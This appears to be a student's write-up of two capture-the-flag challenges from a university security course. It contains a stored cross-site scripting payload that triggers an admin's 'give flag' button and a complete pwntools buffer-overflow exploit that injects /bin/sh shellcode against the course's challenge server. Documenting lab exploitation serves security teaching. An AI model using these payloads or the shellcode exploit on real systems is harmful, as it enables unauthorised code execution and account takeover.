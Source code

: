 # CTF Week #10
## Challenge #1
Our objective is to bypass the administrator's aproval of our justification and get the flag.

- Once we send our jutification for wanting the flag two different buttons show up:
    -  "Mark request as read" with id "markAsRead"
    -  "Give the flag" with id "giveflag"

|                   ![](./images/ctf10/1.png)                 |
| :----------------------------------------------------------:|
|           *Figure 1: Id of the "Give the flag" button.*     |


- Knowing the buttons' ids we might be able to activate them by inputting java script in the form and exploring the unintended scrip execution vulnerability.

Inputting the following line of code in the justification form we can then obtain the flag: flag{aee2a3da1e8e9588d6f60b6c02bdf0e5}.

```html
<script>document.getElementById('giveflag').click()</script>
```
|                   ![](./images/ctf10/2.png)                 |
| :----------------------------------------------------------:|
|           *Figure 2: Flag given after waiting for a little bit.*     |

## Challenge #2

After executing `checksec` to the program given we can conclude that it's vulnerable to Buffer Overflow attacks since there's no protections in place to not be able to do so (e.g. no existance of canaries).

|                   ![](./images/ctf10/3.png)                 |
| :----------------------------------------------------------:|
|           *Figure 3: `checksec` command output.*     |


Our objective is to buffer overflow the buffer present in the buffer pointer given. Beforehand we know that the buffer size is 100 characters.

|                   ![](./images/ctf10/4.png)                 |
| :----------------------------------------------------------:|
|           *Figure 4: The source code given.*     |

By using the previously used script we developed an exploit capable of running a `shell` that'll be used to print the contents of the `flag.txt` with the `cat` command. The 32 bit shellcode present in it was also used in a previous Seed-Lab, it's inserted at the begining of the buffer and the return address it's pointed to the begining of the buffer, this way after the function returns it'll execute our shellcode instead. The return address position in the payload was obtained by the use of `dbg` and an...

```python
#!/usr/bin/python3

from pwn import *

r = remote('ctf-fsi.fe.up.pt', 4001)

r.recvuntil(b"buffer is ")
buffer_line = r.recvline().strip()[:-1]
encoded_address = p32(int(buffer_line,16))

shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

size = 108
payload = bytearray(0x41 for i in range(size))
payload[0:len(shellcode)] = shellcode
payload[size:] = encoded_address

r.sendline(payload)
r.interactive()
```

|                   ![](./images/ctf10/5.png)                 |
| :----------------------------------------------------------:|
|           *Figure 5: Obtaining the flag using the exploit above mencioned and the `cat` command*     |